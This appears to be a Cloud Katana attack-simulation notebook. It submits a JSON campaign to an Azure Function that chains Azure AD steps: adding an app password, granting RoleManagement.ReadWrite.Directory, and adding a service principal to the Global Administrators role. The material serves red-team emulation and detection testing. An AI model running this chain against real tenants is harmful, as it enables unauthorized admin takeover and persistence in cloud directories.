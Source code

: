 ```yaml
---
jupyter:
  jupytext:
    text_representation:
      extension: .md
      format_name: markdown
      format_version: '1.3'
      jupytext_version: 1.14.7
  kernelspec:
    language: python
---
```


# Admin promotion via Directory Role Permission Grant


## Metadata



|                   |    |
|:------------------|:---|
| contributors      | ['Azure'] |
| platform          | Roberto Rodriguez @Cyb3rWard0g |
| creation date     | 2021-11-01 |
| modification date | 2022-05-01 |
| Tactics           | [TA0003](https://attack.mitre.org/tactics/TA0003) |
| Techniques        | [T1098.001](https://attack.mitre.org/techniques/T1098/001) |


## Description
A campaign to simulate a threat actor granting the Microsoft Graph RoleManagement.ReadWrite.Directory (application) permission to an Azure service principal and using the new permissions to add an Azure AD object or user account to an Admin directory role (i.e. Global Administrators).


## Get OAuth Access Token

```python
from msal import PublicClientApplication
import requests
import time

function_app_url = "https://FUNCTION_APP_NAME.azurewebsites.net"

tenant_id = "TENANT_ID"
public_client_app_id = "KATANA_CLIENT_APP_ID"
server_app_id_uri = "api://" + tenant_id + "/cloudkatana"
scope = server_app_id_uri + "/user_impersonation"

app = PublicClientApplication(
    public_client_app_id,
    authority="https://login.microsoftonline.com/" + tenant_id
)
result = app.acquire_token_interactive(scopes=[scope])
bearer_token = result['access_token']
```

## Set Azure Function Orchestrator

```python
endpoint = function_app_url + "/api/orchestrators/Orchestrator"
```

## Load Campaign

```python
data = {"id": "attackscenario-7dde2208-d4eb-480e-afa1-bad0ab7e861b", "name": "Admin promotion via Directory Role Permission Grant", "metadata": {"creationDate": "2021-11-01", "modificationDate": "2022-05-01", "platform": ["Azure"], "description": "A campaign to simulate a threat actor granting the Microsoft Graph RoleManagement.ReadWrite.Directory (application) permission to an Azure service principal and using the new permissions to add an Azure AD object or user account to an Admin directory role (i.e. Global Administrators).", "contributors": ["Roberto Rodriguez @Cyb3rWard0g"], "mitreAttack": [{"technique": "T1098.001", "tactics": ["TA0003"]}]}, "steps": [{"number": 1, "name": "AddPasswordToAADApp", "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Add-CKAzADAppPassword"}, "parameters": {"appObjectId": {"type": "string", "defaultValue": "test"}}}, "wait": 120}, {"number": 2, "name": "GetAccessTokenOne", "dependsOn": [1], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Get-CKAccessToken"}, "parameters": {"ClientId": {"type": "string", "defaultValue": "test"}, "GrantType": {"type": "string", "defaultValue": "client_credentials"}, "AppSecret": {"type": "string", "defaultValue": "reference(1).secretText"}}}}, {"number": 3, "name": "GrantRoleMgmtPermission", "dependsOn": [2], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Grant-CKAzADAppPermissions"}, "parameters": {"accessToken": {"type": "string", "defaultValue": "reference(2).access_token"}, "spObjectId": {"type": "string", "defaultValue": "test"}, "resourceName": {"type": "string", "defaultValue": "Microsoft Graph"}, "permissionType": {"type": "string", "defaultValue": "Application"}, "permissions": {"type": "array", "defaultValue": ["RoleManagement.ReadWrite.Directory"]}}}, "wait": 120}, {"number": 4, "name": "GetAccessTokenTwo", "dependsOn": [3], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Get-CKAccessToken"}, "parameters": {"ClientId": {"type": "string", "defaultValue": "test"}, "GrantType": {"type": "string", "defaultValue": "client_credentials"}, "AppSecret": {"type": "string", "defaultValue": "reference(1).secretText"}}}}, {"number": 5, "name": "AddServicePrincipalToGARole", "dependsOn": [4], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Add-CKAzADDirectoryRoleMember"}, "parameters": {"accessToken": {"type": "string", "defaultValue": "reference(4).access_token"}, "directoryRoleTemplateId": {"type": "string", "defaultValue": "test"}, "directoryObjectId": {"type": "string", "defaultValue": "test"}}}}], "file_name": "attackscenario-7dde2208-d4eb-480e-afa1-bad0ab7e861b"}
```

### Send HTTP Request

```python
http_headers = {'Authorization': 'Bearer ' + bearer_token, 'Accept': 'application/json','Content-Type': 'application/json'}
results = requests.get(endpoint, json=data, headers=http_headers, stream=False).json()

time.sleep(30)
```

### Explore Output

```python
query_status = requests.get(results['statusQueryGetUri'], headers=http_headers, stream=False).json()
query_results = query_status['output']
query_results
```
